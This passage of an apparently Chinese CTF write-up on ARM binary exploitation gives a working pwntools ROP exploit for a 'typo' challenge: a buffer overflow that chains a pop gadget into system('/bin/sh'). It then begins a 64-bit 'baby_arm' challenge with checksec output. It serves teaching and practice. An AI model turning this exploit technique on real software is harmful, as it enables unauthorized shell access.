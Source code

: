 ```

```

可以看到有一个`pop {r0, r4, pc}`，刚好覆盖了第一个参数和`pc`，修改成`system("/bin/shx00")`即可

exp:

```
from pwn import *

context.log_level='debug'

sl = lambda x : r.sendline(x)
sd = lambda x : r.send(x)
sla = lambda x,y : r.sendlineafter(x,y)
rud = lambda x : r.recvuntil(x,drop=True)
ru = lambda x : r.recvuntil(x)
li = lambda name,x : log.info(name+':'+hex(x))
ri = lambda  : r.interactive()
r = process("./typo", timeout = 2)

ru("if you want to quitn")
sl("")
ru("n")
ru("n")
system_addr = 0x00110B4
bin_sh_addr = 0x006C384
ppp = 0x00020904
payload = "A"*112+p32(ppp)+p32(bin_sh_addr)+p32(0)+p32(system_addr)
sl(payload)
ri()


```

### baby_arm

这个题是 64 位的

通过捣鼓环境发现在`ubuntu:18.04`上 gdb 没有报错，所以又在`ubuntu:18.04`配置了一下环境

```
radish ➜ arm-pwn  checksec --file baby_arm
[*] '/media/psf/Home/MyFile/ctf/arm-pwn/baby_arm'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
radish ➜ arm-pwn  file baby_arm
baby_arm: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.7.0, BuildID[sha1]=e988eaee79fd41139699d813eac0c375dbddba43, stripped


```
